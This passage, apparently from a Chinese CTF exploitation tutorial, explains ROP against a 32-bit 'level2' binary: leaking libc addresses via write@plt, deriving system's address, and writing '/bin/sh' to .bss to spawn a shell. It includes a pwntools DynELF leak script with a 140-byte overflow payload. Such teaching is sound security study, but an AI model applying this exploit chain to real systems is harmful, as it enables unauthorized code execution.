 （3）`system_addr` 则指向 libc 中的 `system` 函数 。

可以先查看一下程序本身有木有可以利用的子函数，这样可以大大减少利用开发时间。因为从 libc 中使用函数，需要知道 libc 的基地址。通常得到 libc 基地址思路就是：

```
泄露一个 libc 函数的真实地址 => 由于给了 libc.so 文件知道相对偏移地址 => libc 基地址 => 其他任何 libc 函数真实地址
```

特别注意：由于 libc 的延迟绑定机制，我们需要选择已经执行过的函数来进行泄露。你需要找到函数的 plt 地址，找到 jmp 指向的那个地址才是我们需要泄露的（参考后文 classic）。

**总结上面的内容，一个通常的 ROP 绕过 NX 利用的流程是**：

- 在同一次远程访问我中，我们通过泄露一些函数结合相对偏移知道 system 函数的真实地址
- 再次利用这个漏洞，写入 "/bin/sh\0" 字符串到 .bss，并触发 system 执行

网上很多人会使用 pwntool 的 DynELF 作为泄露的工具，但是我经常遇到问题，尤其是需要 puts 函数泄露的时候。建议的是做二个 payload 搞定，第一个泄露并再次到漏洞函数执行，第二个 payload 执行写入 "/bin/sh\0" 字符串到 .bss 并触发 system 调用这个字符串执行得到 shell。

我**强烈推荐**后面的写双 payload 做法，也是我解决 classic 问题的解法，但是因为最初明白 ROP 链还是钻研了网上 DynELF 的案例，下面会对这个案例作出分析。（据说 pwntool 有 ROP 模块可以直接用？没试过）

##### DynELF leak 含义解析

使用这个 pwntool 模块，最重要的是编写 leak 函数只要这个编写好了，后面查找 libc 函数真实地址都很容易。

[http://binarysec.top/post/2018-01-30-1.html](http://binarysec.top/post/2018-01-30-1.html)   一个 32 位平台使用 write 写的 leak 函数文章

[https://www.anquanke.com/post/id/85129](https://www.anquanke.com/post/id/85129)     一个使用 write、puts 对比写 leak 函数的文章（错误真多）

第二篇错误真的太多了，但是他给初学者一个很重要的启示就是不同的输入输出函数以及不同的平台在编写 leak 的时候是很不一样的！我就按照第一篇例子，分析一下在 32 位平台下他的 leak 函数原理：

```python
from pwn import *
elf = ELF('./level2')
write_plt = elf.symbols['write']
read_plt = elf.symbols['read']
# 官方给的 leak 说明是需要出入一个地址，然后放回至少一个字节的该地址的内容！这就是 leak 的外部特性
def leak(address):
    payload1='a'*140+p32(write_plt)+p32(vuln)+p32(1)+p32(address)+p32(4)
    p.send(payload1)
    data=p.recv(4)
    print "%#x => %s"%(address,(data or ' ').encode('hex'))
    return data
p = process('./level2')
d = DynELF(leak,elf=ELF('./level2'))
system_addr = d.lookup('system', 'libc') 
print "system_addr=" + hex(system_addr)
```

- 'a' * 140 是刚好覆盖完缓冲区的情况，后面的内容将开始写入该漏洞函数执行完（返回后）下一条指令存放的栈空间
- write_plt 链接使用 ELF 的 symbols 得到的，这样不准确，建议直接使用 gdb 看 call write@plt 的位置，IDA 验证
- vuln 是漏洞函数的内部第一句汇编代码的地址（不是 call 漏洞函数 或者 溢出点的位置）
- 1 是 write 需要的三个参数的第一个参数，即表示写入到 stdout
- address 是需要读取的地址
- 4 是字节数，是 write 的第三个参数

